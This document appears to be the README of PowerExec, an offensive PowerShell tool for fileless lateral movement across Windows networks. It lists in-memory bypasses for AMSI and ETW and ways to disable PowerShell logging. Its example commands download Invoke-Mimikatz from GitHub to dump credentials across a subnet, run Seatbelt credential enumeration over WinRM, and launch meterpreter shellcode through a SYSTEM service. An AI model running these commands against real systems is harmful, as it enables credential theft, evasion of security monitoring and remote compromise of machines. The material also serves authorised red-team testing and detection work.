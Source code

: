 # PowerExec

PowerExec combines various bypass techniques and execution methods for fileless lateral movement.


## Functions

```
Invoke-PowerExec                -   runs PowerShell script block on remote computers through various execution methods
New-PowerLoader                 -   builds script block for in-memory execution of PowerShell, .NET assembly or shellcode
```


## Bypass techniques

Bypass techniques should be specified within the `New-PowerLoader` function:

| Bypass | Description                                              |
| ------ | -------------------------------------------------------- |
| AMSI   | Bypass Antimalware Scan Interface via in-memory patching |
| ETW    | Bypass Event Tracing for Windows via in-memory patching  |
| SBL    | Disable PowerShell Script Block Logging                  |
| PML    | Disable PowerShell Module Logging                        |


## Execution methods

The execution method should be specified within the `Invoke-PowerExec` function:

| Method          | Description                                                            |
| --------------- | ---------------------------------------------------------------------- |
| CimProcess      | Create process via WMI                                                 |
| CimTask         | Create temporary scheduled task via WMI running as NT AUTHORITY\SYSTEM |
| CimService      | Create temporary service via WMI running as NT AUTHORITY\SYSTEM        |
| CimSubscription | Create temporary WMI event subscription (experimental)                 |
| WinRM           | Run powershell via Windows Remote Management                           |

The transport protocol should be chosen between DCOM and WSMAN for WMI methods.


## Examples

Run a PowerShell script through WMI using a download cradle while bypassing AMSI and ETW :

```
PS C:\> $payload = New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -ArgumentList 'Invoke-Mimikatz -DumpCreds' -Bypass AMSI,ETW
PS C:\> Invoke-PowerExec -ComputerList 192.168.1.0/24 -ScriptBlock $payload -Method CimProcess -Protocol Wsman -Threads 10
```

Run a .NET assembly through WinRM while bypassing AMSI, PowerShell Module Logging and Script Block Logging :

```
PS C:\> New-PowerLoader -Type NetAsm -FilePath .\Seatbelt.exe -ArgumentList 'CredEnum' -Bypass AMSI,PML,SBL | Invoke-PowerExec -ComputerList 192.168.1.1,192.168.1.2 -Method WinRM
```

Run a shellcode through a scheduled task :

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin | Invoke-PowerExec -ComputerList 192.168.1.1 -Method CimService -Protocol Dcom
```


## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
  * https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
